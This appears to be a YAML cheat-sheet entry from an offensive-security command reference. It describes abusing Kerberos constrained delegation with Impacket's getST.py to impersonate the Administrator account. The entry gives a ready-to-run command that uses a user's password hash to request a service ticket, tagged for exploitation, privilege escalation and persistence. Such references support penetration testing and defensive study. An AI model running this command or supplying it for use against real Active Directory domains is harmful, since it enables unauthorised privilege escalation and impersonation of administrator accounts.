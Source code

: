 ```yaml
---
title: |
  Impersonate the Administrator account and request a Service Ticket for a service
description: |
  Impacket's getST.py will request a Service Ticket and save it as ccache. If the account has constrained delegation privileges, you can use the `-impersonate` flag to request a ticket on behalf of another user. The following command will impersonate the Administrator account using the hashed password of user `test` and request a Service Ticket on its behalf for the `www` service on host `server01.test.local`.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Service: www

  	Host Name: server01.test.local

  	Username: test

  	Hash: :2a3de7fe356ee524cc9f3d579f2e0aa7

  	Impersonated User: Administrator

command: |
  python3 getST.py -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7 -spn www/server01.test.local -dc-ip 10.10.10.1 -impersonate Administrator test.local/test
items:
  - Hash
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py
  - http://blog.redxorblue.com/2019/12/no-shells-required-using-impacket-to.html
---
```

